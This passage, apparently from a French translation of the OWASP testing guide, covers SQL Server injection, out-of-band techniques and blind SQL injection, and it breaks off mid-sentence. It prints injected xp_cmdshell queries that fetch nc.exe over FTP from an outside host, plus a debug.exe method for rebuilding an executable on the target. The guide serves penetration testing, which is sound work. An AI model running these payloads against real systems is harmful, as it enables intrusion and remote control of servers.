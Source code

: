 ```sql
exec master..xp_cmdshell 'echo open ftp.tester.org > ftpscript.txt';--
exec master..xp_cmdshell 'echo USER >> ftpscript.txt';--
exec master..xp_cmdshell 'echo PASS >> ftpscript.txt';--
exec master..xp_cmdshell 'echo bin >> ftpscript.txt';--
exec master..xp_cmdshell 'echo get nc.exe >> ftpscript.txt';--
exec master..xp_cmdshell 'echo quit >> ftpscript.txt';--
exec master..xp_cmdshell 'ftp -s:ftpscript.txt';--
```

À ce stade, `nc.exe` sera téléchargé et disponible.

Si FTP n'est pas autorisé par le pare-feu, nous avons une solution de contournement qui exploite le débogueur Windows, `debug.exe`, qui est installé par défaut sur toutes les machines Windows. `Debug.exe` est scriptable et est capable de créer un exécutable en exécutant un fichier de script approprié. Ce que nous devons faire est de convertir l'exécutable en un script de débogage (qui est un fichier 100% ASCII), de le télécharger ligne par ligne et enfin d'appeler `debug.exe` dessus. Il existe plusieurs outils qui créent de tels fichiers de débogage (par exemple : `makescr.exe` par Ollie Whitehouse et `dbgtool.exe` par `toolcrypt.org`). Les requêtes à injecter seront donc les suivantes :

```sql
exec master..xp_cmdshell 'echo [debug script line #1 of n] > debugscript.txt';--
exec master..xp_cmdshell 'echo [debug script line #2 of n] >> debugscript.txt';--
....
exec master..xp_cmdshell 'echo [debug script line #n of n] >> debugscript.txt';--
exec master..xp_cmdshell 'debug.exe < debugscript.txt';--
```

À ce stade, notre exécutable est disponible sur la machine cible, prêt à être exécuté. Il existe des outils qui automatisent ce processus, notamment `Bobcat`, qui s'exécute sous Windows, et `Sqlninja`, qui s'exécute sous Unix (voir les outils au bas de cette page).

### Obtenir des informations lorsqu'elles ne sont pas affichées (hors bande)

Tout n'est pas perdu lorsque l'application web ne renvoie aucune information --comme des messages d'erreur descriptifs (cf. [Blind SQL Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection)). Par exemple, il peut arriver que l'on ait accès au code source (par exemple, parce que l'application Web est basée sur un logiciel open source). Ensuite, le testeur de stylo peut exploiter toutes les vulnérabilités d'injection SQL découvertes hors ligne dans l'application Web. Bien qu'un IPS puisse arrêter certaines de ces attaques, la meilleure façon serait de procéder comme suit : développer et tester les attaques dans un banc d'essai créé à cet effet, puis exécuter ces attaques contre l'application Web testée.

D'autres options pour les attaques hors bande sont décrites dans [Exemple 4 ci-dessus](#example-4-yet-another-useful-get-example).

### Attaques par injection SQL aveugle

#### Essai et erreur

Alternativement, on peut jouer chanceux. C'est-à-dire que l'attaquant peut supposer qu'il existe une vulnérabilité d'injection SQL aveugle ou hors bande dans une application Web. Il sélectionnera ensuite un vecteur d'attaque (par exemple, une entrée Web), [utiliser des vecteurs fuzz] (../../6-Appendix/C-Fuzz_Vectors.md) contre ce canal et regardera la réponse. Par exemple, si l'application Web recherche un livre à l'aide d'une requête
